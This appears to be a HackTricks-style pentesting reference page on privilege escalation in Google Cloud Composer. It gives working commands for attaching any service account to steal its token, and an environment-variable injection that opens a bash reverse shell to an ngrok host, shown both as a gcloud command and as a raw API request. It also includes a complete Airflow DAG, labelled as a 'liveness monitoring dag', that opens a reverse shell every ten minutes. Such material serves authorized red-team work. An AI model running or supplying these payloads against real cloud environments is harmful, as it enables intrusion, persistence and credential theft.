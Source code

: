 # GCP - Composer Privesc

{{#include ../../../banners/hacktricks-training.md}}

## composer

More info in:

{{#ref}}
../gcp-services/gcp-composer-enum.md
{{#endref}}

### `composer.environments.create`

It's possible to **attach any service account** to the newly create composer environment with that permission. Later you could execute code inside composer to steal the service account token.

```bash
gcloud composer environments create privesc-test \
  --project "${PROJECT_ID}" \
  --location europe-west1 \
  --service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```

More info about the exploitation [**here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

It's possible to update composer environment, for example, modifying env variables:

```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
    projects/<project-id>/locations/<location>/environments/<composer-env-name> \
    --update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
    --location <location> \
    --project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```

TODO: Get RCE by adding new pypi packages to the environment

### Download Dags

Check the source code of the dags being executed:

```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```

### Import Dags

Add the python DAG code into a file and import it running:

```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/dags/reverse_shell.py
```

Reverse shell DAG:

```python:reverse_shell.py
import airflow
from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from datetime import timedelta

default_args = {
    'start_date': airflow.utils.dates.days_ago(0),
    'retries': 1,
    'retry_delay': timedelta(minutes=5)
}

dag = DAG(
    'reverse_shell',
    default_args=default_args,
    description='liveness monitoring dag',
    schedule_interval='*/10 * * * *',
    max_active_runs=1,
    catchup=False,
    dagrun_timeout=timedelta(minutes=10),
)

# priority_weight has type int in Airflow DB, uses the maximum.
t1 = BashOperator(
    task_id='bash_rev',
    bash_command='bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/14382 0>&1',
    dag=dag,
    depends_on_past=False,
    priority_weight=2**31 - 1,
    do_xcom_push=False)
```

### Write Access to the Composer bucket

All the components of a composer environments (DAGs, plugins and data) are stores inside a GCP bucket. If the attacker has read and write permissions over it, he could monitor the bucket and **whenever a DAG is created or updated, submit a backdoored version** so the composer environment will get from the storage the backdoored version.

Get more info about this attack in:

{{#ref}}
gcp-storage-privesc.md
{{#endref}}

### Import Plugins

TODO: Check what is possible to compromise by uploading plugins

### Import Data

TODO: Check what is possible to compromise by uploading data

{{#include ../../../banners/hacktricks-training.md}}
